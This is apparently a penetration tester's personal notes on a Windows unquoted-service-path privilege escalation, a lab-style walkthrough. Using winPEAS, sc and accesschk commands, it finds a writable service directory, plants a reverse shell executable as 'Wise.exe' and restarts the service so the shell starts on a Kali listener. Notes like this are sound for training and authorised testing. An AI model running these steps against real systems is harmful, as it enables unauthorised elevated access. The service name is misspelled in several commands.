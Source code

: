 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

1. Run winPEAS to check for service misconfigurations:

```command prompt - windows
.\winPEASx64.exe quiet servicesinfo
```

2. Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

![[Pasted image 20220112132841.png | 1000]]

3. Confirm this using sc:
```command prompt - windows
sc qc WiseBootAssitant
```
4. Use accesschk.exe to check for write permissions:

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq C:\
```

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```

5. Copy the reverse shell executable and rename it appropriately:

[[1._Reverse Shells (WIN)#MSFVenom]]


![[Pasted image 20220112132935.png | 1000]]


```command prompt - windows
copy C:\PrivEsc\reverse.exe "C:\Program Files (x86)\Wise\Wise.exe"
```

6. Stop the service

```command prompt - windows
sc stop WiseBootAssistant
```

```command prompt - windows
sc query WiseBootAssitant
```

![[Pasted image 20220112133219.png | 1000]]

6. Start a listener on Kali, and then start the service to trigger the exploit:

![[rlwrap]]

```command prompt - windows
net start WiseBootAssitant
```

Visual example:

```command prompt - windows
.\winPEAS.exe quiet servicesinfo
```

![[Pasted image 20211229122911.png]]

```command prompt - windows
sc qc WiseBootAssistant
```

![[Pasted image 20211229122948.png]]

```command prompt - windows
.\accesschk64.exe /accepteula -ucqv Aaron WiseBootAssistant
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq C:\
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```